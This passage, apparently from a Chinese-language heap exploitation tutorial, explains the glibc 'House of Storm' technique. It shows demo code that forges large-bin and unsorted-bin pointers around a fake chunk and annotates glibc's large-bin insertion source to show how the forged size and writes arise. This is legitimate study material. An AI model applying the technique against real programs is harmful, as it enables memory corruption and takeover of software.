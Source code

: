 
这一部分主要是变量定义，以及后续的malloc两个large_chunk的操作 最后让两个chunk达成利用条件 即`一个large_chunk在large_bin中(chunk large_bin)和一个large_chunk在unsorted_bin中(chunk unsorted_bin)`

```
fake_chunk=((unsigned long)fake.content)-0x10;
    unsorted_bin[0]=0;
    unsorted_bin[1]=(unsigned long)fake_chunk;

    large_bin[0]=0;
    large_bin[1]=(unsigned long)fake_chunk+8;
    large_bin[2]=0;
    large_bin[3]=(unsigned long)fake_chunk-0x18-5;
```

这一段代码就是在模拟攻击者控制各个指针的值了，这里可能会有很多人迷惑:为什么`large_bin[3]=(unsigned long)fake_chunk-0x18-5;`,即控制`large_bin-&gt;bk_nextsize=(unsigned long)fake_chunk-0x18-5;`.其实这一步就是`House_of_storm`的精髓所在——`伪造size`,下面我们来借助源码分析下究竟这样设置会发生什么样的奇妙反应。

还是上面的那段源码 我们拿过来

```
else 
    {
        // unsorted_bin-&gt;fd_nextsize=large_bin;
        victim-&gt;fd_nextsize = fwd;
        // unsorted_bin-&gt;bk_nextsize=fake_chunk-0x18-5;
        victim-&gt;bk_nextsize = fwd-&gt;bk_nextsize;
        if (__glibc_unlikely (fwd-&gt;bk_nextsize-&gt;fd_nextsize != fwd))
            malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");
        // fake_chunk-0x18-5=unsorted_bin；
        fwd-&gt;bk_nextsize = victim;
        // fake_chunk-0x18+0x18-5=victim;
        victim-&gt;bk_nextsize-&gt;fd_nextsize = victim;
    }
    // bck=fake_chunk+8
    bck = fwd-&gt;bk;
    if (bck-&gt;fd != fwd)
        malloc_printerr ("malloc(): largebin double linked list corrupted (bk)");
    }
    ...
    mark_bin (av, victim_index);
    // unsorted_bin-&gt;bk=fake_chunk+8
    victim-&gt;bk=bck;
    // unsorted_bin-&gt;fd=large_bin;
    victim-&gt;fd = fwd;
    // fake_chunk+8=victim;
    fwd-&gt;bk = victim;
    // fake_chunk+8-8=victim;
    bck-&gt;fd = victim;
```

这段代码中构造最为巧妙的是这部分

```
// fake_chunk-0x18+0x18-5=victim;
        victim-&gt;bk_nextsize-&gt;fd_nextsize = victim;
```
